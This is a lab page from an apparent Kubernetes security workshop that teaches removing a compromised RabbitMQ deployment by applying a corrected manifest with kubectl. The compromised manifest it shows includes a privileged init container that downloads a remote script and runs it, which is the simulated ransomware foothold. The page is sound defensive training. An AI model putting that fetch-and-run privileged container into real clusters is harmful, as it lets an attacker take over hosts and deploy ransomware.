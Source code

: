 # Background
In previous sections of this workshop we found that the RabbitMQ deployment had been compromised. The rabbitmq pods created by the deployment will infect the host with a static pod used to execute the ransomware attack. To return our application to its normal operational state we must do two things. First, we must remove the compromised RabbitMQ pods. Second, we must remove the static pods that were created by the compromised RabbitMQ pods. In this lab you will correct the application deployment, and delete the compromised RabbitMQ pods. In the next lab, you will locate and delete the static pods.

## Prerequisites
We will be using a AWS Cloud9 workspace to execute this lab. The following is a list of software that we will use to complete the lab.

1. [kubectl](https://www.eksworkshop.com/020_prerequisites/k8stools/#install-kubectl "install kubectl")
2. [The AWS CLI](https://www.eksworkshop.com/020_prerequisites/k8stools/#update-awscli "AWS CLI installation")

The software should have been installed for you before starting this workshop. However, if it has not been installed you can follow these instructions to [install Kubernetes tools](https://www.eksworkshop.com/020_prerequisites/k8stools/ "EKS tools install page"). These instructions are part of the larger [EKS workshop](https://www.eksworkshop.com/020_prerequisites/k8stools/).

## Removing Compromised RabbitMQ Pods

We will start by reviewing the current manifest for the RabbitMQ deployment. You can get the manifest by running this command:

`kubectl -n sock-shop get deployment rabbitmq -o yaml`

Notice that the `image:`, `command:`, and `securityContext:` elements are incorrect and will need to be changed or removed. We have remove some lines here for readability.

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: rabbitmq
  labels:
    name: rabbitmq
  namespace: sock-shop
spec:
  replicas: 1
  selector:
    matchLabels:
      name: rabbitmq
  template:
    metadata:
      labels:
        name: rabbitmq
      annotations:
        prometheus.io/scrape: "false"
    spec:
      initContainers:    # <--- remove the init container
      - name: istio-init
        image: public.ecr.aws/b3u2a5x0/initubuntu:latest
        imagePullPolicy: Always
        command: ['/bin/bash', '-c', 'curl -o entrypoint.sh https://raw.githubusercontent.com/imtrahman/static-pod/main/entrypoint.sh && chmod +x entrypoint.sh && ./entrypoint.sh && exit']
        securityContext:
          privileged: true
      containers:
      - name: rabbitmq
        image: rabbitmq:3.6.8-management
        env:
          - name: CRYPTO_ACCOUNT_NUMBER
            valueFrom:
              secretKeyRef: 
                name: white-rabbit
                key: CRYPTO_ACCOUNT_NUMBER
        ports:
        - containerPort: 15672
          name: management
        - containerPort: 5672
          name: rabbitmq
        securityContext:
          capabilities:
            drop:
              - all
            add:
              - CHOWN
              - SETGID
              - SETUID
              - DAC_OVERRIDE
      - name: rabbitmq-exporter
        image: kbudde/rabbitmq-exporter
        ports:
        - containerPort: 9090
          name: exporter
      nodeSelector:
        beta.kubernetes.io/os: linux
```

Correcting the manifest and deploying that change will cause Kubernetes to terminate the compromised pods, and replace them with uncompromised pods.

There are several ways to change update a deployment. For example, we can update a deployment using the command `kubectl edit`, `kubectl patch`, `kubectl apply` or `kubectl replace`. For this lab we will provide a corrected yaml manifest and use the command `kubectl apply`. Copy and paste the following commands into your Cloud9 terminal. Once you apply the new manifest Kubernetes will terminate the compromised pods and rollout uncompromised RabbitMQ pods.

```bash
# Create a new manifest
cat <<EOF > fixed-rabbitmq-deployment.yaml
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: rabbitmq
  labels:
    name: rabbitmq
  namespace: sock-shop
spec:
  replicas: 1
  selector:
    matchLabels:
      name: rabbitmq
  template:
    metadata:
      labels:
        name: rabbitmq
      annotations:
        prometheus.io/scrape: "false"
    spec:
      containers:
      - name: rabbitmq
        image: rabbitmq:3.6.8-management
        ports:
        - containerPort: 15672
          name: management
        - containerPort: 5672
          name: rabbitmq
        securityContext:
          capabilities:
            drop:
              - all
            add:
              - CHOWN
              - SETGID
              - SETUID
              - DAC_OVERRIDE
      - name: rabbitmq-exporter
        image: kbudde/rabbitmq-exporter
        ports:
        - containerPort: 9090
          name: exporter
      nodeSelector:
        beta.kubernetes.io/os: linux
EOF
```

## Apply the new manifest
```bash
kubectl -n sock-shop apply --record -f ./fixed-rabbitmq-deployment.yaml
```

The `--record` flag included in the `kubectl apply` command will cause the command used for deploying the manifest to be recorded in with the rollout history. You can view the rollout history with the following command.

```bash
kubectl -n sock-shop rollout history deployment rabbitmq
```

```
deployment.apps/rabbitmq
REVISION  CHANGE-CAUSE
1         <none>
2         kubectl apply --record=true -f ./fixed-rabbitmq-deployment.yaml
```

You can verify the change was successful by using the following commands:

> Get a long listing of the rabbitmq deployment. Note the image name has changed. We will use the selector in the next command.

```bash
kubectl -n sock-shop get deployment rabbitmq -o wide
```

```
NAME       READY   UP-TO-DATE   AVAILABLE   AGE     CONTAINERS                   IMAGES                                               SELECTOR
rabbitmq   1/1     1            1           4d14h   rabbitmq,rabbitmq-exporter   rabbitmq:3.6.8-management,kbudde/rabbitmq-exporter   name=rabbitmq
```

Get the rabbitmq pod based on the pod selector. Note the age should reflect the recent deployment. We will use the pod name in the next command.

```bash
kubectl -n sock-shop get pods --selector name=rabbitmq
```

```
NAME                        READY   STATUS    RESTARTS   AGE   IP            NODE                           NOMINATED NODE   READINESS GATES
rabbitmq-57dd566589-4mmmd   2/2     Running   0          1m   10.0.189.60   ip-10-0-191-117.ec2.internal   <none>           <none>
```

Get the pod spec using the pod name. You can confirm that the image and security context were updated. Some lines were removed for readability.

```bash
kubectl -n sock-shop get pods <POD_NAME> -o yaml
```

```
apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubernetes.io/psp: eks.privileged
    prometheus.io/scrape: "false"
  creationTimestamp: "2021-10-29T17:03:26Z"
  generateName: rabbitmq-57dd566589-
  labels:
    name: rabbitmq
    pod-template-hash: 57dd566589
  name: rabbitmq-57dd566589-4mmmd
  namespace: sock-shop
  ownerReferences:
  - apiVersion: apps/v1
    blockOwnerDeletion: true
    controller: true
    kind: ReplicaSet
    name: rabbitmq-57dd566589
    uid: 1c49e7a0-5e46-4977-b17f-a95f410da140
  resourceVersion: "894492"
  uid: 49fe1e3f-eb3f-46bb-ae2e-dd42110bf658
spec:
  containers:
  - image: rabbitmq:3.6.8-management
    imagePullPolicy: Always
    name: rabbitmq
    ports:
    - containerPort: 15672
      name: management
      protocol: TCP
    - containerPort: 5672
      name: rabbitmq
      protocol: TCP
    resources: {}
      [...]
```

You will delete the static pod created by the compromised RabbitMQ pod in the next step. When you're ready, click this [link](./remove-static-pod.md) to continue.
